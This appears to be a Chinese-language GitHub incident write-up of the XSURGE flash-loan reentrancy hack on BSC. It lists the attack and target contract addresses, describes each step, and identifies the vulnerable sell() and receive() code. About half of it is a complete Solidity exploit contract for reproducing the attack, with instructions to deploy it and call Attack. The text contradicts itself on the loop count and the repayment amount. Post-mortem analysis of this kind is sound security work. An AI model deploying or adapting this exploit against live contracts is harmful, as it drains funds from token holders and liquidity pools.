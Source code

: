 ## 概述
---
8 月 17 日,BSC上的XSURGE被攻击。
攻击者利用`闪电贷+重入攻击`反复低买高卖，
导致项目损失约500万美金。
---
## 事件分析


* 攻击合约
```
0x59c686272e6f11dC8701A162F938fb085D940ad3
```

* 攻击交易

```
0x7e2a6ec08464e8e0118368cb933dc64ed9ce36445ecf9c49cacb970ea78531d2
```

![imaga](./images/Attack_TX.png)
* 被攻击合约同时也是SurgeToekn合约地址

```
0xE1E1Aa58983F6b8eE8E4eCD206ceA6578F036c21
```



#### 攻击流程


* 第一步 从Pancake 通过闪电贷借出 10000 个WBNB

> 由于`PancakeSwap` 借鉴了`Uniswap V2`的代码,所以同样拥有`flashSwap`的功能

> 虽然Pancake的官方文档并没有提及这一功能,但不代表它没有



* 第二步 把10000个WBNB换成10000个BNB

> 如果WBNB和WETH10一样提供`flashMint`就更方便了



* 循环攻击SurgeToken合约(共6次)

![image](./images/Six_Times.png)

* 调用WBNB的`Deposit`,把赚到的`22191`个BNB存在在WBNB合约中

![image](./images/Deposit.png)

* 调用WBNB的`transfer`,把`10030`个WBNB归还给Pancake

![image](./images/Repay.png)

* 从WBNB合约中`Withdrawal`,把`12161`个WBNB取出,完成攻击

![image](./images/Repay.png)

---
## 问题代码

* `sell()` 函数中存在Low-level-call函数调用,虽然使用了`nonReentrant()`， 但无法防御其他函数被异常调用的攻击场景
![image](./images/Code-1.png)


* `purchase`函数在`receive()`中触发
![image](./images/Code-2.png)
## 复现方法

* 攻击合约代码

```
// SPDX-License-Identifier: Apache-2.0
pragma solidity =0.8.0;

interface IpancakePair{
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
    
    function token0() external view returns (address);
    function token1() external view returns (address);
    
}

interface WBNB {

    function deposit() payable external;
    function withdraw(uint wad) external;
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}


interface Token {
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}

interface Surge{
    function sell(uint256 tokenAmount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external  returns (bool);
}


contract  test{
    
    address private constant cake_Address = 0x0E09FaBB73Bd3Ade0a17ECC321fD13a19e81cE82;
    
    address private constant WBNB_Address = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;
    
    address private constant Pancake_Pair_Address = 0x0eD7e52944161450477ee417DE9Cd3a859b14fD0;
    
    address public constant Surge_Address = 0xE1E1Aa58983F6b8eE8E4eCD206ceA6578F036c21;
    
    // 这里填你自己的测试地址
    address public wallet = 0x8F14c19ed3d592039D2F6aD372bd809228369D77;
    
    uint8 public time = 0;
    
    
    
    function Attack()external {
    
        // Brrow 100 WBNB
        bytes memory data = abi.encode(WBNB_Address, 10000*1e18);
        
        IpancakePair(Pancake_Pair_Address).swap(0,10000*1e18,address(this),data);
    
    }
    
    function pancakeCall(address sender, uint amount0, uint amount1, bytes calldata data) external{

        //把WBNB换成BNB
        WBNB(WBNB_Address).withdraw(WBNB(WBNB_Address).balanceOf(address(this)));
        
        // Buy
        (bool buy_successful,) = payable(Surge_Address).call{value: address(this).balance, gas: 40000}("");
        
        //循环6次
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        
        //把所有BNB换成WBNB
        WBNB(WBNB_Address).deposit{value: address(this).balance}();

        //还给PancakeSwap 10300个WBNB
        Token(WBNB_Address).transfer(Pancake_Pair_Address, 10300*1e18);
        WBNB(WBNB_Address).transfer(wallet,WBNB(WBNB_Address).balanceOf(address(this)));
    }
    
    

    receive() external payable {
        
        if(msg.sender == Surge_Address && time < 6){
        
            (bool buy_successful,) = payable(Surge_Address).call{value: address(this).balance, gas: 40000}("");

            time++;

        }
    }
    
}

```

* 部署合约 点击Attack

![image](./images/Attack.png)

* 成功

![image](./images/Success.png)

